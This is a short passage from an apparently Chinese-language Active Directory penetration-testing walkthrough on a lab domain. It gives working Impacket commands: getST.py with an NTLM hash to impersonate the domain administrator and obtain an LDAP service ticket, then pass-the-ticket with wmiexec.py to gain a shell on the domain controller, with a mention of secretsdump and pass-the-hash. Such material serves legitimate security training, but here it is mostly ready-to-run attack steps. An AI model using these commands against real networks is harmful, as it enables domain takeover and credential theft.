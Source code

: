使用impactet工具包中的getST.py模拟域管理员administrator账号申请访问域控的ldap服务的ST。

```sh
getST.py -dc-ip 192.168.1.250 -spn ldap/DC.y5neko.com -impersonate administrator y5neko.com/yueshu1 -hashes 00000000000000000000000000000000:1851fad1b3b4fb0dbad79a832a42d7d3 		#LMhash可以用32位0填充
```

<img src="image/image-20231010165954840.png" alt="image-20231010165954840" style="zoom: 67%;" />

![image-20231010165913130](image/image-20231010165913130.png)

<img src="image/image-20231010170018341.png" alt="image-20231010170018341" style="zoom: 80%;" />

ptt横向，然后wmiexec到域控获取权限，或是secretsdump后随时随地pth域控

```sh
export KRB5CCNAME=administrator.ccache
klist
wmiexec.py -dc-ip 192.168.1.250 -no-pass -k administrator@dc.y5neko.com
```

<img src="image/image-20231010170230704.png" alt="image-20231010170230704" style="zoom:80%;" />
